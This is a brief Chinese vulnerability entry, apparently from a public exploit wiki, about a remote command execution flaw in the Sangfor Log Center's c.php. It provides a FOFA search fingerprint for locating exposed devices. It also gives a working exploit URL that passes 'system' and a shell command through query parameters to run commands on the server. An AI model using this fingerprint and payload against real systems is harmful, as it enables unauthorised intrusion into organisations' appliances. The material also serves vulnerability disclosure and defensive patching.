 #  深信服 日志中心 c.php 远程命令执行漏洞

## 漏洞描述

深信服 日志中心 c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

> [!NOTE]
>
> 深信服 日志中心

## FOFA

> [!NOTE]
>
> body="isHighPerformance : !!SFIsHighPerformance,"

## 漏洞复现

登录页面如下

![image-20210531192407444](http://wikioss.peiqi.tech/vuln/image-20210531192407444.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

访问漏洞Url

```
/tool/log/c.php?strip_slashes=system&host=ipconfig
```

![image-20210531192540462](http://wikioss.peiqi.tech/vuln/image-20210531192540462.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)
